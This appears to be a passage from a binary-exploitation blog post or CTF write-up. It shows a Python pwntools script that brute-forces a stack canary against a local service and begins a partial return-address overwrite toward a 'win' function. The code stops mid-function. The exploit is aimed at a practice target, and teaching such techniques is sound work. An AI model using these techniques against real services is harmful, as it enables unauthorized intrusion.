 ### Full Exploit Code

<div class="blog-post-body-code-snippet">
  <nav class="blog-post-body-code-snippet-header">
    <span>exploit.py</span>
  </nav>
  <pre class="line-numbers">
```python
#!/usr/bin/python3
import pwn  # import pwntools
pwn.context.log_level = 'CRITICAL'
canary = b""


def leak_canary(canary):
    for i in range(8):  # loop 8 times for 8 bytes of a canary
        for j in range(256):  # loop 256 times for all possible values of a byte
            # create a connection to localhost:4444
            io = pwn.remote("127.0.0.1", 4444)
            # buf is at rbp-0x50 and canary is at rbp-0x8
            # so we write 72 bytes of garbage + 8 byte canary
            io.recv()
            payload1 = b"80"
            # send size
            io.sendline(payload1)
            io.recv()
            # send payload
            payload2 = b"A"*72
            payload2 += canary
            payload2 += pwn.p8(j)
            io.send(payload2)
            mssg = io.clean()
            # check if canary corrupted
            if b"stack" not in mssg:
                # Append byte found to canary
                canary += pwn.p8(j)
                print(f"[+] Canary - {hex(pwn.unpack(canary,'all'))}")
                io.close()
                break
            io.close()
    return canary


canary = pwn.u64(leak_canary(canary))
print("[!] Canary Leaked - ", hex(canary))
rbp = b"A"*8
canary = pwn.p64(canary)


def brute_win_func(rbp, canary):
    for i in range(16):
        print(f"Trying {i}")
        io = pwn.remote("127.0.0.1", 4444)
        io.recv()
        payload1 = b"90"
        # send size
        io.sendline(payload1)
        io.recv()
        # 00000000000013c9 <win>:
        ret_addr = pwn.p8(0xc9)  # the fixed byte
        # the byte whose nibble we have to bruteforce
        ret_addr += pwn.p8(i*16+0x3)
        payload2 = b"A"*72
```
